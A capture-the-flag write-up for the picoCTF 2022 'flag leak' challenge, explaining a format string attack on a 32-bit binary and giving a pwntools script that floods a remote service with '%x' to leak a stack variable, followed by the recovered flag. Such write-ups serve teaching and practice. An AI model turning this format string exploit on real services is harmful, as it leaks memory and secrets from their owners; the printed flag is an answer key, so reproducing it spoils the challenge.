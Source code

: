```yaml
---
title: flag leak
description: Format string exploitation to leak a variable on the stack
summary: Format string exploitation to leak a variable on the stack
date: 2022-03-30
tags:
- pwn
ctf:
- picoCTF 2022
draft: false
---
```


This challenge is a straightforward format string exploitation challenge. There's a 32 bits binary running on a server, and we have access to the binary itself and its source code.

The flag is stored in a variable declared just before our buffer, so its content will be juste under our input on the stack. We'll use that later to retrieve its value.

To be sure to get the flag consistently and avoid the issues with little endianness and stack alignment, as we know the flag is stored just after our input on the stack, what I did is I just removed all the bytes until the repeated `%x` string ends. Then, it's the flag beginning, and I can read the bytes until I find a `}`, meaning this is the end of the flag.

Here is my final script for this:

```py
from pwn import *

s = remote("saturn.picoctf.net", 52458)

s.recv()
s.send(b"%x" * 200) # enough to fill the whole buffer
s.recvuntil(b"- \n")
leak = s.recv()
leak = leak.split(b"%x"[::-1].hex().encode("ascii"))[-1]

for i in range(0, len(leak), 8):
    flag = bytes.fromhex(leak[i:i+8].decode("ascii")).decode("ascii")[::-1]

    print(flag, end = "")

    if flag.endswith("}"):
        break

print()
```

Once executed, it looks like this:

![](leak.png)

And we get the flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_d97b0d94}`